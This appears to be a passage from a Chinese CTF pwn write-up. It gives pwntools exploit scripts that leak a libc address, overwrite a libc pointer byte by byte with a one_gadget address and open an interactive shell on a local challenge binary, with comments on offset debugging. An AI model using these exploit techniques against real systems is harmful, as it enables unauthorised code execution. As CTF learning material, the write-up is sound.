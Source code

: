 ```python
#list=p64(one_gadget)
for i in range(3):
    p.sendlineafter("biang!\n", chr(one_gadget & 0xff))#chr目的是将16进制转化成一个字节发过去
    one_gadget = one_gadget >> 8
p.interactive()

```

打本地

```python
python
#coding:utf-8
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
p=process('./a')
e=ELF('a')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
#gdb.attach(p, 'b * $rebase(0xd63)\nc')
p.recvuntil('0x')
puts_addr=int(p.recv(12),16)
libc_base = puts_addr - libc.sym['puts']
print('xiamian')
print(libc.sym['puts'])
strlen=libc_base+0x3eb0a8#这里我最开始调试得到的偏移是这个0x3eb0a8（当时我用的是本机自带的libc）,然后patch另一个libc之后，就变成0x3eb0a2了（我最开始用0x3eb0a8是打通了的）
print(hex(libc_base))
print(p64(puts_addr))
sss=str(strlen)
p.sendline(sss)
one_gadget=libc_base+0xe54fe
for _ in range(3):
    p.sendlineafter("biang!\n", chr(one_gadget & 0xff))
    one_gadget = one_gadget >> 8
p.interactive()
```

如果复制粘贴还打不通的话，九成九是libc版本的问题（本人就一菜鸡，如果写的哪有问题，欢迎指正）。
